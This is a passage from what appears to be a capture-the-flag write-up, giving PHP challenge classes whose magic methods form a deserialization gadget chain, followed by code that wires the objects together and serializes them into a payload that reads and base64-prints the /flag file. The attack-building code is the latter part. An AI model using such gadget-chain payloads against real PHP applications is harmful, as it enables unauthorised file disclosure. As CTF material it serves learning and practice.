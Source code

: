 ```php
    public function __get($cc){
        echo "give you flag : ".$this->flag;
        return ;
    }
}

class Info
{
    public $promise='';

    public function __construct(){
        $this->promise='';
        return $this->promise;
    }

    public function __toString(){
        return $this->file['filename']->ffiillee['ffiilleennaammee'];
    }
}

class Room
{
    public $filename='/flag';
    public $a='';

    public function __get($name){
        $function = $this->a;
        return $function();
    }

    public function Get_hint($file){
        $hint=base64_encode(file_get_contents($file));
        echo $hint;
        return ;
    }

    public function __invoke(){
        $content = $this->Get_hint($this->filename);
        echo $content;
    }
}
$a = new Start();
$b = new Info();
$c = new Room();

$c->a= $c;
$b->file['filename']=$c;
$a -> name = $b;

var_dump(serialize($a));

```
